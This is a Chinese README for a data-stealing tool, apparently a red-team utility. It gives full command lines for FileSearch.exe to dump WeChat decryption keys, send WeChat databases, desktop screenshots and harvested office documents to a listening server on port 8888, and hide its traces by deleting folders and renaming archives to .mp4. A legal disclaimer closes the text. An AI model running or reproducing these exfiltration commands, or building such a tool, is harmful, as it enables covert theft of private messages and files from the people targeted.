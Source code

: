 ### Server

<<<<<<< HEAD
```plain
Server.exe port # 默认8888端口
```

### Command

```plain
[+] FileSearch.exe dumpkey # 获取微信密钥
[+] FileSearch.exe send 127.0.0.1 8888 # 从默认路径回传微信数据库
[+] FileSearch.exe send 127.0.0.1 8888 vxpath # 指定微信数据库路径
[+] FileSearch.exe photo 127.0.0.1 8888 # 桌面截屏回传
[+] FileSearch.exe search d:\ .docx # 查找指定类型文件
[+] FileSearch.exe upload path 127.0.0.1 8888 # 上传文件
[+] FileSearch.exe uploads path 127.0.0.1 8888 # 上传文件夹
[+] FileSearch.exe all 127.0.0.1 8888  # 全盘获取指定类型文件
[+] FileSearch.exe user 127.0.0.1 8888 # c:\users目录下查找类型文件
```

### 更新说明

1、all参数排除了c盘符查找指定类型文件，避免大量缓存文件造成卡顿，添加user参数在c:\users目录下查找

可自行修改需要上传的文件类型（747行），默认为：

```plain
	const char* filetype[] = { ".doc",".xls", ".pdf" ,".docx",".xlsx",".txt",".bat",".ppt",".pptx" };
```

2、运行成功后会自动删除生成出来的文件夹以及压缩包，压缩包文件随机修改成了mp4后缀

3、优化了查找文件匹配方式，支持模糊匹配或精确匹配

4、新增uploads参数遍历指定文件夹压缩上传功能

5、新增photo参数桌面截屏回传功能

### 功能展示：

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668769423893-416c9225-1319-4133-a468-3cb6cee900d4.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668770076653-85c5e09c-e9a8-436f-8ce5-8987cc079882.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668772513228-738d3cd4-5aef-49e5-9d31-6df8d9c6e8f9.png)

## 已知问题：

测试在1M带宽的服务器上传输大文件（G级）可能会损坏，感觉这跟双方网络波动有一定关系，后续会改成自动分卷压缩来上传，目前暂用的解决办法：

例如本地自带Rar进行切割，回传后

```plain
C:\Program Files\WinRAR\Rar.exe a -ep1 -m0 -v2mC:\Users\admin\Downloads\1.rar C:\Users\admin\Downloads\xxx.jar
```

注释：-v2m 即分卷的大小为2m 

2、使用WinRAR内置修复功能或者使用[DiskInternals ZIP](https://www.diskinternals.com/zip-repair/)进行修复损坏文件

> 后续还会更新~

如果发现缺陷请提交 issue，非常感谢！

#### 本人失业多年，已不参与大小HW活动的攻击方了，若溯源到id与本人无关

#### 免责声明

 本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

